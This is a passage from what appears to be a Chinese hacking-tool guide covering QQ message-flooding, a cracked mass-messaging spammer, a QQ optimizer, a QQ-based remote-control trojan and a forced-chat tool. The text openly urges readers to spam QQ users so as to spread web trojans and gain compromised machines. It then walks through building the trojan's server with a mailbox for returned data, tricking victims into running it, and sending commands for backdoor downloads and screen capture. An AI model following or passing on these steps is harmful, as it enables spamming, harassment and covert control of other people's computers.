





在这里我们可以添加和删除要发送的语句，在“消息库”中输入要添加的发送语句，点击“添加”即可加入消息库，然后选中并点击“>>”完成添加，如图3。若要删除则选中语句点击“删除”。

其它默认设置可保持不变；“发送次数”可以设置大一些。若选“循环攻击”，软件会不停发送消息直到点击“停止”为止。全部设置完成后打开攻击对象消息窗口，点击“攻击”即可，如图4。对于该方法引发的真人PK，文中声明不负责。



### 2.11 QQ 消息群发王


QQ 消息群发王是一款 QQ 自动查找、添加好友并发送验证消息以及对好友进行群发的软件。它可以通过你的 QQ 来全自动地给其它的 QQ 用户发送信息，保证能正常运行不出错，你可以发送你的产品宣传、供求信息、甚至是你的网站，接收者可以直接点击进入等，宣传效果明显，速度快，成本低，是你的第一选择，你还可以利用他来宣传你的网页木马！

这里给大家提供的是破解版，向作者先说声对不起了，这款软件的最大优点就是速度绝对超快，你可以在晚上挂机的时候用它来全自动宣传你的网页木马，来增加自己的肉鸡。

QQ 消息群发王运行后的界面如图1所示。首先来添加一个 QQ，建议大家用小号来宣传，点击上方的“设置”，在“QQ号码”和“QQ密码”中输入QQ帐号密码，其他默认即可。在下面“QQ主程序路径”中选择 QQ.exe 的位置，图2是我的设置，点击“保存”后重启软件即可生效。在“工作模式”中选择自动，然后在“工作选项”中勾上相关设置，可对“高级查找”进行设置来查找指定用户，在下方分别输入发送的验证消息和群发消息内容（如图3）。一切设置好后点击“开始”，程序就会全自动工作，自动添加好友、发送指定消息，并在发送完成后自动删除好友，继续循环。





#### 特色功能

- 1. **“查找添加好友”**：自动为你无限添加好友。可发送验证消息，并可按“省”“市”“年龄”“性别”等条件筛选对象。
- 2. **“好友群发”**：快速向好友（及陌生人）群发文字及图片消息。
- 3. **“好友群删”**：对已宣传过的好友自动群删处理，可删除或移动到陌生人分组，避免重复宣传。
- 4. 自动处理小喇叭上的信息。
- 5. 自动关闭对方与你视频窗口及正在接收QQ表情等无关窗口。
- 6. 突破一般QQ群发软件只支持文本的限制，可向在线好友群发图片。
- 7. QQ自身出错时，本软件能自动启动QQ。
- 8. 详细日志记录功能，可将处理过的QQ号导出为QQ邮件地址文件，便于后续群发处理。
- 9. 群发预处理功能：对已发送过的QQ号自动过滤；全自动模式下同一QQ号100%只发送一次好友消息。
- 10. 软件小巧，运行速度快，占用极少系统资源，具有超强稳定性。

### 最后需要注意的是：

> 删除QQ群发程序之后，软件里的分组类型将被清空，显示为空白好友分组，所以一定要先保存好友分组再进行操作。

软件设计得很傻瓜化，如果你还有什么不懂的话，自己打开它来试试，相信很快就可以解决了！

## 2.12 QQ优化设置

QQ 优化设置是由刺山蝎（Scorpion）开发的一款小巧灵活的 QQ 优化软件，可以把一些 QQ 中不常用但占地方的功能删除掉，程序为绿色软件，不需要安装，运行界面如图 1。

程序对 QQ 2004 以及更新的版本有效，对部分和其他版本同样有效。

> 注意：
> 1. 在优化前请备份好文件；
> 2. 在进行优化前需先关闭所有 QQ 相关进程，不能把软件放在 QQ 安装目录中运行。

选择你需要优化的选项然后点击即可，如果想恢复可以点击相应优化项前面的“恢复”。软件还带有详细说明（如图 2）。

### 具体功能：

- 1. 传送文件/发送加速
- 2. 去用小存盘按钮
- 3. 去除自动离线
- 4. 去除自动升级
- 5. 去除 IPMVP 功能
- 6. 去除 IMProxy
- 7. 去除 QQ 音乐程序
- 8. 去除固定面板
- 9. 去除四级菜单
- 10. 去除企业好友
- 11. 去除移动空间
- 12. 去除网络实名
- 13. 去除 QQ 聊天室
- 14. 去除 QQ 伴侣

- 针对 QQ2005 版可进行修改的项目有：
- 1. 去除 QQ 宠物
- 2. 去除 QQ 音乐上线关怀
- 3. 去除 QQ 音乐面板





## 2.13 QQ远控精灵

QQ 终于也可以当木马的客户端来使用了，利用“QQ 远控精灵”我们可以轻松通过 QQ 聊天来进行远程控制。

这是一个利用 QQ 来进行远程控制的小软件，功能不是很多，但实现了不更改网关而在两个不同局域网内部进行互控。主要利用 QQ 聊天进行远程控制，功能包括：进程管理、后门下载、远程抓图、文件发送、关机重启。

> 注意：该软件通过 QQ 发送信息达到控制目的，需要在对方 QQ 上保持在线并可接收消息，控制命令需按约定格式发送。

打开 QQ 远控精灵后如图 1，先生成一个“服务端”，服务端是发给对方运行的程序。点击“生成服务端”后会弹出“配置服务端”窗口，如图 2。






在其中输入你的邮箱地址，以及用户名和密码，这里建议大家专门申请一个邮箱来使用，毕竟安全第一嘛！在“邮箱服务器”中填入你邮箱服务器的SMTP地址，如果你不知道填什么，可以去看看你邮箱的主页，比如www.163.com，在上面找找，这里我填的是smtp.163.com，配置好后如图3。点“生成服务端”即可生成木马！然后将生成的木马发给别人运行，这里就看各位的社会工程学运用程度了！



来看看如何远程控制，在对方运行服务端后，打开QQ远控精灵来生成命令，先选择命令类型，如图4。然后点击“生成代码”，将生成的命令用QQ消息的方式发送到在那台机子上登录的QQ，你必须先加他为好友，当发送后聊天窗口会自动关闭，然后登录刚刚你生成服务端时填的那个邮箱看看怎么样？



是不是返回结果就发送到你的邮箱里了！下面的“路径”是配合一些命令来使用的，如图5。还有很多好玩的功能就等待你自己去发现了！



## 2.14 QQ在线查询强制聊天器



QQ在线查询强制聊天器是一款最新推出的强行聊天工具；也是利用建立临时会话的原理制作而成的。双击运行QQ在线查询强制聊天器，界面如图1所示。来看看如何使用。在右上方的“QQ”后面输入你想强制聊天的QQ号码，如图2。然后点击下面的“在线查询”，左边会显示出该QQ号码的QQ秀，右边会显示出一些该QQ开通的服务，如图3。点击上面的QQ在线状态，即可与对方强制聊天，不管他加你了还是没有加你，如图4。

